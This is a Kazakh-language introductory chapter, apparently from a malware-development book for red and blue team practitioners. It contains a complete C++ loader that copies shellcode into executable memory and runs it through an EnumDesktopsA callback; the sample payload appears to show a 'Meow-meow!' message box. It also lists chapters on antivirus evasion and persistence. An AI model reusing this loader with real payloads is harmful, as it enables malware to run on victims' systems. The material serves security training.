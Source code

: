 \newpage
\subsection{2. зиянды бағдарламаны әзірлеу дегеніміз не?}\label{2. зиянды бағдарламаны әзірлеу дегеніміз не?}

﷽

Red Team немесе Blue Team маманы болсаңыз да, зиянды бағдарламаларды әзірлеу әдістері мен айла-амалдарын үйрену сізге жетілдірілген шабуылдардың толық көрінісін береді. Сонымен қатар, классикалық зиянды бағдарламалардың көпшілігі әдетте Windows жүйесінде жазылады, бұл сізге Windows операциялық жүйесіне арналған бағдарламаларды әзірлеуде практикалық білім береді.     

Бұл кітаптағы оқу құралдар мен мысалдардың көпшілігі `Python` және `C/C++` бағдарламалау тілдерін терең түсінуді талап етеді:    

```cpp
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

Кейде бізге Nim бағдарламалау тіліндегі кейбір кодты түсіну де қажет:    

```python
import strutils

proc caesar(s: string, k: int, decode = false): string =
  var k = if decode: 26 - k else: k
  result = ""
  for i in toUpper(s):
    if ord(i) >= 65 and ord(i) <= 90:
      result.add(chr((ord(i) - 65 + k) mod 26 + 65))

let msg = "The quick brown fox jumped over the lazy dogs"
echo msg
let enc = caesar(msg, 11)
echo enc
echo caesar(enc, 11, decode = true)
```

Негізі логикалық тұрғыдан кітап бес (4 + 1 бонус) тарауға бөлінеді:
- Зиянды бағдарлаларды жазудың түрлі айла-амалдары мен әдістері     
- Антивирусты (AV) алдау амалдары    
- Табандылық техникалары     
- Зиянды бағдарлама, криптография және зерттеулер      
- Linux зиянды бағдарламаларын әзірлеуге кіріспе      

Кітаптағы барлық материалдар менің [блогымдағы](https://cocomelonc.github.io/) жазбалардан негізделген.    

Сұрақтарыңыз болса, менің [элетронды поштам](mailto:cocomelonkz@gmail.com) арқылы қоюға болады    

Менің Github репозиториям: [https://github.com/cocomelonc](https://github.com/cocomelonc)    